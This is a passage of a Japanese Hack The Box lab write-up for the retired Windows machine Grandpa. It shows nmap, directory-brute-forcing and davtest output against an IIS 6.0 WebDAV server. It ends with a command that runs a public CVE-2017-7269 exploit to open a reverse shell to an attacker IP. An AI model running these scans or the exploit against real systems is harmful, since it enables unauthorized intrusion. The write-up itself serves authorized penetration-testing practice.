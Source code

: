 ```yaml
---
title: 【Easy/Windows】Grandpa Writeup(HackTheBox)
date: "2022-06-04"
template: "post"
draft: true
slug: "hackthebox-windows-grandpa"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Windows"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「Grandpa」のWriteUpです。"
socialImage: "/media/cards/no-image.png"

---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="../../static/media/2022-06-04-hackthebox-windows-grandpa/327080.png" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「」のWriteUpです。

## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->

## もくじ





## Reconnaissance(TA0043)



### Gather Victim Host Information(T1592)



``` bash
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sat, 04 Jun 2022 01:01:45 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|_  Server Type: Microsoft-IIS/6.0
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.16 seconds
```



![image-20220604100328237](../../static/media/2022-06-04-hackthebox-windows-grandpa/image-20220604100328237.png)



``` bash
$ gobuster dir -u http://targethost.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 | tee gobuster1.txt

/images               (Status: 301) [Size: 152] [--> http://targethost.htb/images/]
/Images               (Status: 301) [Size: 152] [--> http://targethost.htb/Images/]
/IMAGES               (Status: 301) [Size: 152] [--> http://targethost.htb/IMAGES/] 
/_private             (Status: 403) [Size: 1529] 
```

- Images

![image-20220604100519971](../../static/media/2022-06-04-hackthebox-windows-grandpa/image-20220604100519971.png)

- _private

![image-20220604101247760](../../static/media/2022-06-04-hackthebox-windows-grandpa/image-20220604101247760.png)



- 特に有益な情報はでない

``` bash
$ feroxbuster -u http://targethost.htb/  -x asp,aspx -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt | tee feroxbuster.txt
```





``` bash
$ /usr/bin/davtest -url http://targethost.htb/
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://targethost.htb
********************************************************
NOTE    Random string for this session: raQC3An4
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     jhtml   FAIL
PUT     cfm     FAIL
PUT     cgi     FAIL
PUT     jsp     FAIL
PUT     txt     FAIL
PUT     pl      FAIL
PUT     php     FAIL
PUT     shtml   FAIL
PUT     asp     FAIL
PUT     html    FAIL
PUT     aspx    FAIL

********************************************************
```

参考：[ハッカーはDAVTestでWebDAVが有効なサーバーをテストする(Kali Linux) | AIを武器にホワイトハッカーになる](https://whitemarkn.com/learning-ethical-hacker/davtest/)

参考：[Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow - Windows remote Exploit](https://www.exploit-db.com/exploits/41738)



``` bash
root@pentestlab:~# python revshell.py 
usage:iis6webdav.py targetip targetport reverseip reverseport

root@pentestlab:~# python revshell.py 10.10.10.14 80 10.10.14.2 9999
```



参考：[iis6-exploit-2017-CVE-2017-7269/iis6 reverse shell at master · g0rx/iis6-exploit-2017-CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell)








